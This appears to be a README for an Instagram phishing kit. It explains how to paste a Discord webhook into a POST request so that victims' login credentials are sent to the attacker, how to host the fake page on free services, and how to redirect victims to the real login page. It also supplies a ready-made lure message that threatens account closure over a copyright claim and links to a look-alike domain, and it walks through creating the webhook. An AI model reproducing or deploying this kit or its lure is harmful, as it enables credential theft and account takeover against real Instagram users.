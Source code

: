 Usage :

My Instagram phishing page is really easy to use, you only have to replace WEBHOOK on line 101 by your Discord webhook
request.open("POST", "Webhook");

Next, you upload it to your website (like Netlify or 000webhost, they are free)
When someone will login you will receive his credentials and he will be redirected to the official Insta login page. (the one in the link, you can change it by editing the link and the js part in HTML on line 108).




send this msg directly to the victim. 
 
Hi Instagram User!

copyright infringement!
Copyright violation has been detected in a post on your account.
if you think copyright infringement is wrong, you should provide feedback. Otherwise, your account will be closed within 24 hours. You can give feedback using the link below. Thank you for your understanding.

Copyright Form
https://lnstaagram.netlify.app/





To send phishing link via email
download email-sending.zip





how to create webhook server
go to discord.com
click add server
then name a server 
after creating server then go to integration in server setting
in integration create a webhook 

